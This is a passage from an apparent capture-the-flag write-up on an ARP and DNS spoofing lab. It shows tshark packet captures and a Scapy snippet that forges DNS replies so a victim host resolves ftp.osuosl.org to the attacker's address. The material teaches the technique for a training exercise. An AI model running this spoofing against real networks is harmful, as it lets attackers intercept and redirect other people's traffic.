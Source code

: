 ```
```

Right after the custom ARP reply is sent by the Scapy script, a DNS query shows up in the packet capture:

```
guest@32bc79941e39:~$ tshark -nni eth0 'host 10.6.6.35'                                                                                                                                                                                                                                                                            
Capturing on 'eth0'                                                                                                                                              
    8 7.272209320 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    9 8.312108161 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35                                          
   10 8.336211565 02:42:0a:06:00:04 → 4c:24:57:ab:ed:84 ARP 42 10.6.6.53 is at 02:42:0a:06:00:04
   11 8.352346580    10.6.6.35 → 10.6.6.53    DNS 74 Standard query 0x0000 A ftp.osuosl.org                                   
```

Next, I modified the `dns_resp.py` script to construct a DNS reply which spoofs the response of the local machines IP address.  

Modified fields:

- Compromised source machine: 10.6.6.35
- Spoofed DNS source address: 10.6.6.53
- Local IP address, used as the DNS query response `A` record: 10.6.0.4
- Local MAC address: 02:42:0a:06:00:04
- Remote MAC address: 4c:24:57:ab:ed:84
  
The key component of this modified DNS response is the construction of the DNS reply:

```
ns = DNS(
    id=packet[DNS].id,   # Pull the ID from the SRC packet (it is random for each query)
    qd=packet[DNS].qd, 
    aa=1, 
    rd=0, 
    qr=1, 
    qdcount=1, 
    ancount=1, 
    nscount=0, 
    arcount=0, 
    ar=DNSRR(rrname=packet[DNS].qd.qname, 
    type='A', ttl=259200, 
    rdata='10.6.0.4'))   # Set the response to the local IP address
```

It took a bit of trial and error to build a proper DNS packet.  `tshark`'s DNS protocol analyzer will help determine if the DNS packet is `Malformed`.  Here is an example of a broken DNS response:

```
44 41.636968759    10.6.6.53 → 10.6.6.35    DNS 104 Standard query response 0x0000 A ftp.osuosl.org A 10.6.0.2[Malformed Packet]
```
